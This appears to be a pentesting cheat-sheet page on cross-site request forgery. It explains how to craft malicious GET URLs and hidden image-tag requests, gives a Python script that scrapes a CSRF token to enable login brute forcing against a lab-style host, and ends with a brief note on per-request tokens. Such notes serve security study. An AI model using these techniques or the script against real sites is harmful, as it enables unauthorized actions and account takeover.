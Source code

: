 # Cross Site Request Forgery \(CSRF\)

## Cross Site Request Forgery <a id="cross-site-request-forgery"></a>

Cross site Request Forgery \(CSRF\) attacks forces the user to perform action the he did not intend to perform. This usually possible by creating a malicious URL-address that the victim executes in his browser, while he is logged in.

### What's the worst that can happen? <a id="whats-the-worst-that-can-happen"></a>

The attacker can make actions for the user. For example change the email-address, make a purchase, or something like that. So it could be used to change the adress, and reset the password by sending an email.

### How to perform it? <a id="how-to-perform-it"></a>

1. Investigate how the website works First you need to know how the application works. What the endpoints are.
2. Construct your malicious URL Now you just construct the URL. Either using get or post.
3. `GET` If you use only `GET` you can construct the URL like this:

[http://example.com/api/createUser?name=Jose](http://example.com/api/createUser?name=Jose)

* `POST`

If the requests are sent as `POST` you need to make the victim run a link that where you control the server. So that you can add the arguments in the body.

There is one creative trick for this. It is to use the image-tag. Because the image-tag can be used to automatically retrieve information from other sites. If you have an image on your site but it is referenced to

`<img style="display: none" src="http://example.com/image.jpg">`

### CSRF Bypass for Brute Force Example <a id="csrf-bypass-for-brute-force-example"></a>

Useful for setting up a potential username/password brute forcer

```text
#!/usr/bin/python3
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
import re

re_csrf = 'csrfMacgicToken = "(.*?)"'
# this grabs the contents of the csrfMacgicToken variable and uses regular expressions
# to get the contents of the value which this case is in double quotes. In this case csrfMacgicToken = "sid:1234"
# Note: this is case dependent make sure to change variable name or regular expressions based on the source page
# in this case the source page was of index.php 

s = requests.session()
#this make sure future request uses cookies without manually adding them

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
# This ignores the InsecureRequestWarning: Unverified HTTPS request is being made 

r = s.post('https://10.10.10.X/index.php', verify=False)
# verify=false ignores SSL validation

csrf = re.findall(re_csrf, r.text)[0]
login = {'__csrf_magic': csrf, 'usernamefld': 'd00mfist', 'passwordfld': 'dummy1234', 'login': 'Login' }
# Note the __csrf_magic variable was grabbed from a burp post request as well ad the variables usernamefld and 
# passwordfld
# This was the data field of post request: __csrf_magic=sid1234&usernamefld=test&passwordfld=test&login=Login

r = s.post('https://10.10.10.X/index.php', data=login)
print(r.status_code)
print(csrf)
```

### Protection <a id="protection"></a>

The only real solution is to use unique tokens for each request.

#### References <a id="references"></a>

[http://tipstrickshack.blogspot.cl/2012/10/how-to-exploit-csfr-vulnerabilitycsrf.html](http://tipstrickshack.blogspot.cl/2012/10/how-to-exploit-csfr-vulnerabilitycsrf.html)

